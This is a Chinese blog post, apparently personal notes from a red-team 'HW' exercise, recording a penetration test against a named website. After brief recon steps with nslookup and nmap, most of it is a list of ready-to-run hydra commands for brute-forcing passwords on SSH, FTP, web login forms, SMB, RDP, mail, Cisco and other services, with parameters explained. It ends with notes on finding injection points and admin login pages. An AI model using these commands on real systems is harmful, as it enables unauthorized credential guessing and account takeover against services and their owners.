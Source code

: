 ```yaml
---
title: 参加HW项目的一次渗透测试
date: 2020/10/24 15:23:21
ayout: kali3
permalink: kali3.html
cover:
---
```

用前段时间的HW行动写一篇记录
<!--more-->
首先信息收集

站点URL:http://www.jxsfybjyy.cn/

1. 先拿URL通过nslookup命令查找ip


2. 拿到ip后，用nmap扫一波端口


3. 扫一波后，发现有端口暴露，找找敏感端口（特殊服务端口21，22）爆破走一波

爆破 ssh:22 端口命令：

    hydra -L users.txt -P password.txt -t 5 -vV -o ssh.txt -e ns 192.168.0.132 ssh

爆破 Ftp:21 端口命令(指定用户名为root)：

    hydra -l root -P password.txt -t 5 -vV -o ftp.txt -e ns 192.168.0.132 ftp

get方式提交，破解web登录(指定用户名为admin)：

    hydra -L user.txt -p password.txt -t 线程 -vV -e ns ip http-get /admin/
    hydra -l admin -p password.txt -t 线程 -vV -e ns -f ip http-get /admin/index.php

post方式提交，破解web登录：

    hydra -l admin -P password.txt -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
    hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"

参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解，<title>中的内容是表示错误猜解的返回信息提示。

破解https：

    hydra -m /index.php -l admin -P password.txt 192.168.0.132 https

破解teamspeak：

    hydra -l admin -P passworrd.txt -s 端口号 -vV 192.168.0.132 teamspeak

破解cisco：

    hydra -P password.txt 192.168.0.132 cisco
    hydra -m cloud -P password.txt 192.168.0.132 cisco-enable

破解smb：

    hydra -l administrator -P password.txt 192.168.0.132 smb

破解pop3：

    hydra -l root -P password.txt my.pop3.mail pop3

破解rdp(3389端口)：

    hydra -l administrator -P password.txt -V 192.168.0.132 rdp

破解http-proxy：

    hydra -l admin -P passwprd.txt http-proxy://192.168.0.132

破解imap：

    hydra -L user.txt -p secret 192.168.0.132 imap PLAIN
    hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

4.再从主站查找信息，通过点击页面和链接寻找注入点,特别是跳转链接以及登录页面。

5.查找网站路径下的后台管理系统登录入口，一般为admin或者login路径8
